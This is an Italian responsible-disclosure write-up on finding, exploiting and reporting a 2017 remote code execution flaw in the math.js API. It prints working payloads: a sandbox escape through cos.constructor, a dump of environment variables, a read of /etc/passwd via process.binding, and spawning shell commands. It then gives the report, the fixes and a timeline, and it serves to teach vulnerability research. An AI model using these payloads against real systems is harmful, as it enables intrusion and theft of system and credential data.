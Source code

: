 Come abbiamo exploitato una vulnerabilità di remote code execution in math.js
====

Questo articolo spiega in breve come abbiamo trovato, exploitato e segnalato una vulnerabilità di remote code execution (RCE). È fatto per essere una guida su come trovare vulnerabilità, e come segnalarle in modo responsabile.

## Prima fase: scoperta
Sperimentando con [un wrapper](https://github.com/LucentW/s-uzzbot/blob/master/plugins/calculator.lua) dell'API math.js (`http://api.mathjs.org/v1/?expr=expression-here`), abbiamo scoperto che **sembra eseguire del codice JavaScript**, anche se con alcune restrizioni:

```
!calc cos
Result: function
!calc eval
Result: function
!calc eval("x => x")
Error: Value expected (char 3)
!calc eval("console.log")
Error: Undefined symbol console
!calc eval("return 1")
Result: 1
```

In particolare, sembra che `eval` sia stato sostituito con una versione sicura. Neanche `Function` e `setTimeout` funzionano:

```
!calc Function("return 1")
Error: Undefined symbol Function
!calc setTimeout
Error: Undefined symbol Function
```

## Seconda fase: exploit

>Dopo aver capito che ci sono delle restrizioni sull'esecuzione del codice, abbiamo dovuto capire come aggirarle.

In JavaScript ci sono quattro modi di **eseguire delle stringhe**:

  - [`eval("codice")`](https://developer.mozilla.org/it/docs/Web/JavaScript/Reference/Global_Objects/eval)
  - [`new Function("codice")`](https://developer.mozilla.org/it/docs/Web/JavaScript/Reference/Global_Objects/Function)
  - [`setTimeout("code", timeout)`](https://developer.mozilla.org/it/docs/Web/API/WindowOrWorkerGlobalScope/setTimeout)
  - [`setInterval("code", interval)`](https://developer.mozilla.org/it/docs/Web/API/WindowOrWorkerGlobalScope/setInterval)

Nell'ambiente math.js, non possiamo accedere direttamente a queste funzioni, o perché non sono definite o perché sono state ridefinite perché siano sicure. Tuttavia, ci si può accedere indirettamente: in particolare, **si puà accedere indirettamente a `Function` come construttore di una funzione esistente** - questa è stata l'intuizione chiave che ha portato all'exploit.

>Per esempio, `Function("return 1")` può essere sostituito con `Math.floor.constructor("return 1")`. Perciò, per eseguire `return 1`, possiamo usare `Math.floor.constructor("return 1")()`.

Sappiamo che in math.js `cos` è definito come una funzione, per cui l'abbiamo usata:

```
!calc cos.constructor("return 1")()
Result: 1
```

Funziona!

Da qua avremmo potuto semplicemente usare `require` con dei moduli nativi e avere accesso al sistema operativo, giusto? Purtroppo no: nonostante il server dell'API math.js giri in un ambiente Node.js, per qualche motivo non possiamo usare `require`.

```
!calc cos.constructor("return require")()
Error: require is not defined
```

Tuttavia abbiamo potuto usare `process`, che ha [diverse funzionalità carine](https://nodejs.org/api/process.html):

```
!calc cos.constructor("return process")()
Result: [object process]
!calc cos.constructor("return process.env")()
Result: {"WEB_MEMORY": "512", "MEMORY_AVAILABLE": "512", "NEW_RELIC_LOG": "stdout", "NEW_RELIC_LICENSE_KEY": "<censurato>", "DYNO": "web.1", "PAPERTRAIL_API_TOKEN": "<censurato>", "PATH": "/app/.heroku/node/bin:/app/.heroku/yarn/bin:bin:node_modules/.bin:/usr/local/bin:/usr/bin:/bin:/app/bin:/app/node_modules/.bin", "WEB_CONCURRENCY": "1", "PWD": "/app", "NODE_ENV": "production", "PS1": "\[\033[01;34m\]\w\[\033[00m\] \[\033[01;32m\]$ \[\033[00m\]", "SHLVL": "1", "HOME": "/app", "PORT": "<censurato>", "NODE_HOME": "/app/.heroku/node", "_": "/app/.heroku/node/bin/node"}
```

Nonostante `process.env` contenga alcune informazioni interessanti, non possiamo usarlo per fare nulla di interessante: dobbiamo andare più in fondo e usare [`process.binding`](http://stackoverflow.com/q/24042861), che esponde dei binding Javascript all'OS. Nonostante non siano presenti nella documentazione ufficiale, si può determinare il loro funzionamento leggendo il codice sorgente di Node.js. Ad esempio, possiamo usare `process.binding("fs")` per leggere qualsiasi file sul disco (se abbiamo i permessi necessari):

>Per brevità, salteremo il wrapper `!calc cos.constructor("code")`, e presenteremo solo il codice JS.

```
buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600), buffer, 0, 4096); return buffer
Result: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
<more users...>
```

Abbiamo quasi finito: dobbiamo solo capire come aprire una shell ed eseguire un qualsiasi comando. Chi ha esperienza con Node.js sarà a conoscenza di [`child_process`](https://nodejs.org/api/child_process.html), che può essere usato per spawnare processi tramite `spawnSync`: dobbiamo solo re-implementare `child_process` usando i binding al SO (ricordiamo che non possiamo usare `require`).

È più facile di quanto sembri: basta prendere [il codice sorgente di `child_process`](https://github.com/nodejs/node/blob/master/lib/child_process.js), rimuovere il codice che non ci serve (funzioni inutilizzate e gestione degli errori), minificarlo ed eseguirlo nell'API ([qua il codice](https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822)). Una volta fatto questo, **possiamo spawnare un qualsiasi processo** ed eseguire comandi nella shell:

```
return spawnSync('/usr/bin/whoami');
Result: {"status": 0, "signal": null, "output": [null, u15104, ], "pid": 100, "stdout": u15104, "stderr": }
```

## Fase tre: segnalazione

Dopo aver trovato una vulnerabilità e l'abbiamo sfruttata al massimo, abbiamo dovuto decidere cosa farci. Poiché l'abbiamo exploitata per divertimento e non abbiamo scopi criminali, abbiamo scelto di fare i "white hat" e di segnalarlo all'autore. L'abbiamo **contattato in privato** tramite l'indirizzo e-mail sul suo profilo GitHub con questi dettagli:

 - una breve descrizione della vulnerabilità (una RCE in mathjs.eval);
 - un **attacco di esempio** con una spiegazione di come funzionasse (una spiegazione del perché `cos.constructor("code")()` funzionasse e di cosa si potesse fare con `process.bindings`);
 - una **dimostrazione** sul server live (abbiamo incluso l'output di `whoami` e `uname -a`);
 - suggerimenti su **come sistemare la vulnerabilità** (ad esempio, usando [il modulo `vm` in Node.js](https://nodejs.org/api/vm.html)).

Abbiamo lavorato con l'autore per due giorni per aiutarlo a sistemare la vulnerabilità. In particolare, dopo la fix inclusa in [`2f45600`](https://github.com/josdejong/mathjs/commit/2f456009056bc332673f45ca143d4d92c8c7b159) abbiamo trovato un altro modo di aggirarla (se non si può usare direttamente il costruttore, basta usare `cos.constructor.apply(null, "code")()`) che è stata sistemata in [`3c3517d`](https://github.com/josdejong/mathjs/commit/3c3517daa6412457826b79b60368d8e8e415a7dd).

### Timeline
 - 26 Marzo 2017 22:20 CEST: primo exploit avvenuto con successo
 - 29 Marzo 2017 14:43 CEST: la vulnerabilità è stata segnalata all'autore
 - 31 Marzo 2017 12:35 CEST: la seconda vulnerabilità (`.apply`) è stata segnalata
 - 31 Marzo 2017 13:52 CEST: sono state sistemate entrambe le vulnerabilità

---

>La vulnerabilità è stata scoperta da [\@CapacitorSet](https://github.com/CapacitorSet) e [\@denysvitali](https://github.com/denysvitali). Ringraziamo [\@josdejong](https://github.com/josdejong/) per aver fixato la vulnerabilità con prontezza, e [JSFuck](http://www.jsfuck.com/) per aver scoperto il trucco di usare `[].filter.constructor`.
>
><small>Rilasciato sotto la licenza [**CC-BY 4.0**](https://creativecommons.org/licenses/by/4.0/).